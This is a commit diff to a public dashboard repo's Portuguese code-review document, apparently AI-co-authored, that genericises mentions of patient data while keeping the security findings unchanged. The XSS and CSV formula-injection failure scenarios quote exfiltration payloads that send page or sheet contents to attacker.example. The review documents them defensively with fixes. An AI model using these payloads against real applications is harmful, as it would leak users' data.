

Before and after one commit to deglilucas/cdv-dashboard-jornada-cirurgica, a Markdown page: REVISAO-CODIGO-2026-08-07.md, 3 parts joined by grey strips. Shown at 92% size. GitHub-like rendering.

Commit message:
Generaliza as mencoes a dado de paciente no documento de revisao publico
Pedido do usuario: manter um tom generico ("cada usuario sobe seu arquivo
de teste"). A secao de seguranca do REVISAO-CODIGO descrevia, num repo
publico, que a aplicacao processa "dados reais de paciente (nome,
telefone, endereco)" e que os relatorios vao pras clinicas parceiras.

Reescritas as 5 ocorrencias desse tipo - nao so a que o usuario apontou,
senao a limpeza ficaria pela metade:

- contexto da revisao de seguranca (linha 45)
- cenario de falha do XSS (linha 60)
- cenario de falha da injecao de formula em CSV (linha 70, que tambem
  citava a sigla CdV - agora 0 ocorrencias dela no arquivo)
- cenario de falha dos CDNs sem SRI (linha 76)
- nota sobre a Fase 3 e persistencia no navegador (linha 131)

O raciocinio de seguranca nao depende de o dado ser real: "conteudo
carregado na tela" descreve o mesmo risco sem afirmar o que a equipe
manipula. Nenhum achado, severidade ou correcao sugerida mudou.

Permanecem de proposito 3 mencoes em CLAUDE.md e README.md - sao
afirmacoes NEGATIVAS ("o codigo nao tem nenhum dado de paciente
embutido", "e preco, nao dado de paciente") que documentam o que o repo
publico NAO contem. Remove-las faria o repositorio parecer menos
cuidadoso, nao mais.

Co-Authored-By: Claude Opus 5 <noreply@anthropic.com>

````diff
--- a/REVISAO-CODIGO-2026-08-07.md
+++ b/REVISAO-CODIGO-2026-08-07.md
@@ -42,7 +42,7 @@ Depois de qualquer fase: fazer numa branch nova (`fix/...`, `refactor/...`), tes
 
 ## FASE 1.B — Segurança ✅ FEITO (todos os 3 itens abaixo)
 
-Contexto: é um dashboard 100% client-side (sem backend), mas cada usuário sobe sua própria planilha com dados reais de paciente (nome, telefone, endereço) em runtime, e os relatórios exportados são reenviados pra clínicas parceiras. Nada aqui é RCE de servidor — é execução de JS no navegador de quem abre a aba, e vazamento de dados de paciente já renderizados na tela.
+Contexto: é um dashboard 100% client-side (sem backend) — cada usuário sobe seu próprio arquivo em runtime, e os relatórios gerados são compartilhados com as clínicas parceiras. Nada aqui é RCE de servidor: é execução de JS no navegador de quem abre a aba, com acesso ao conteúdo já renderizado na tela.
 
 ### 1. XSS por interpolação sem escapar em `innerHTML` (ALTA severidade)
 
@@ -57,7 +57,7 @@ Contexto: é um dashboard 100% client-side (sem backend), mas cada usuário sobe
 | `renderClinicSummaryTable` | [2866-2888](index.html:2866), campo em 2872 | clinicName — mesmo valor que já é escapado em `buildValorBaseCombos` (linha 1834), mas não aqui. |
 | `renderCharts` — legenda do donut de status | [2757-2772](index.html:2757), interpolado em 2764 | `label` do status, usado tanto no texto quanto dentro de `title="${label}"` (atributo — vetor mais direto de injeção, nem precisa de tag preservada). |
 
-- **Cenário de falha**: uma linha da planilha com Clínica = `<img src=x onerror=fetch('https://attacker.example/x?d='+document.body.innerHTML)>` executa esse JS no navegador de quem abrir qualquer uma dessas abas, com acesso a todos os dados de paciente já renderizados na página.
+- **Cenário de falha**: uma linha da planilha com Clínica = `<img src=x onerror=fetch('https://attacker.example/x?d='+document.body.innerHTML)>` executa esse JS no navegador de quem abrir qualquer uma dessas abas, com acesso a todo o conteúdo já renderizado na página.
 - **Correção sugerida**: envolver cada campo de texto livre citado acima com `escapeHtml(...)` antes de interpolar. Como o padrão se repete em ~5 funções, vale criar um helper que já aplica o fallback padrão também:
   ```js
   function safeCell(v) { return escapeHtml(v) || '-'; }
@@ -67,13 +67,13 @@ Contexto: é um dashboard 100% client-side (sem backend), mas cada usuário sobe
 ### 2. Injeção de fórmula em CSV/Excel na exportação (média severidade)
 
 - **Onde**: `exportRowsAsSpreadsheet`/`exportRowsAsCSV` ([index.html:4012-4025](index.html:4012)) — usadas por todos os `buildXExportRows()`. Confirmado: nenhuma sanitização de células começando com `=`, `+`, `-` ou `@` (prefixos clássicos de formula injection) em lugar nenhum do arquivo.
-- **Cenário de falha**: se um campo de paciente/clínica/médico/comentário na planilha de origem começar com `=HYPERLINK("http://attacker.example/steal?x="&A1,"clique aqui")`, essa fórmula viva vai pro `.xlsx`/`.csv` exportado; quando a clínica parceira ou a equipe da CdV abrir no Excel/Sheets, o link pode vazar dados.
+- **Cenário de falha**: se um campo de texto do arquivo de origem começar com `=HYPERLINK("http://attacker.example/steal?x="&A1,"clique aqui")`, essa fórmula viva vai pro `.xlsx`/`.csv` exportado; quando alguém abrir esse arquivo no Excel/Sheets, o link pode vazar o conteúdo da planilha.
 - **Correção sugerida**: helper `sanitizeForSpreadsheet(value)` que prefixa um `'` (apóstrofo) em qualquer valor de string que comece com `=`, `+`, `-` ou `@`, aplicado a cada campo dentro dos `buildXExportRows()` (ou de forma central, mapeando cada linha antes de `json_to_sheet()`).
 
 ### 3. CDNs sem SRI e sem versão fixa (média severidade)
 
 - **Onde**: os 6 `<script>` de CDN — linhas 8, 16, 17, 18, 21, 22, 23 — nenhum tem `integrity`/`crossorigin`. Tailwind (linha 8) e Lucide (`lucide@latest`, linha 18) nem estão fixados numa versão.
-- **Cenário de falha**: se um desses CDNs for comprometido, o script injetado roda com privilégio total da página (sem CSP restringindo) e pode exfiltrar os dados de paciente já na tela. O `@latest` do Tailwind/Lucide também significa que o código servido pode mudar a qualquer momento fora do controle da equipe.
+- **Cenário de falha**: se um desses CDNs for comprometido, o script injetado roda com privilégio total da página (sem CSP restringindo) e pode exfiltrar o conteúdo já carregado na tela. O `@latest` do Tailwind/Lucide também significa que o código servido pode mudar a qualquer momento fora do controle da equipe.
 - **Correção sugerida**: adicionar `integrity="sha384-..."` + `crossorigin="anonymous"` nos scripts do jsdelivr/cdnjs/unpkg (todos já versionados, então o hash é estável), e fixar uma versão exata de Tailwind e Lucide em vez de URL sem versão/`@latest`.
 
 ---
@@ -128,7 +128,7 @@ Contexto: é um dashboard 100% client-side (sem backend), mas cada usuário sobe
 
 ## FASE 3 — Plano de divisão em múltiplos arquivos
 
-> **📌 AGENDADA PELO USUÁRIO PARA 2026-09-23.** Escopo esclarecido com ele em 2026-09-22, porque o nome "dividir o arquivo" confunde: **divide só o JavaScript**, em `js/*.js`. O `index.html` continua sendo **um único arquivo e um único link** — o markup das 4 abas não sai de lá, as abas seguem alternando por `switchTab()` sem recarregar, e nada muda para quem usa o painel. Links separados por página seriam outra coisa, bem maior: as 4 abas compartilham a planilha carregada em memória, então cada troca de página recarregaria o navegador e **perderia os dados**; evitar isso exigiria persistir **dados de paciente** no navegador ou num backend, que é decisão de privacidade, não só técnica. Não confundir as duas.
+> **📌 AGENDADA PELO USUÁRIO PARA 2026-09-23.** Escopo esclarecido com ele em 2026-09-22, porque o nome "dividir o arquivo" confunde: **divide só o JavaScript**, em `js/*.js`. O `index.html` continua sendo **um único arquivo e um único link** — o markup das 4 abas não sai de lá, as abas seguem alternando por `switchTab()` sem recarregar, e nada muda para quem usa o painel. Links separados por página seriam outra coisa, bem maior: as 4 abas compartilham a planilha carregada em memória, então cada troca de página recarregaria o navegador e **perderia os dados**; evitar isso exigiria persistir **o conteúdo carregado** no navegador ou num backend, que é decisão de privacidade, não só técnica. Não confundir as duas.
 >
 > ⚠️ **Antes de começar, reler o checklist de 5 passos abaixo.** O passo 1 (confirmar que os ajustes de regra já foram feitos e commitados) está satisfeito em 2026-09-22: `REVISAO-ORDEM-PRIORIDADE-2026-08-26.md` teve **todos os itens fechados**. Os passos 2 a 4 (regerar o mapa de funções do zero, reclassificar o que é novo) continuam **obrigatórios** — o arquivo passou de 4.169 para ~5.500 linhas desde que este plano foi escrito, com funções que não existiam (`getPatientKey`, `buildKpiPremisesText`, `findKeywordsInItem`, `renderNpsPositivos`, `getSpecialtyPriorityOrder`, entre outras). **Não confiar no mapa de funções deste documento.**
 >
````
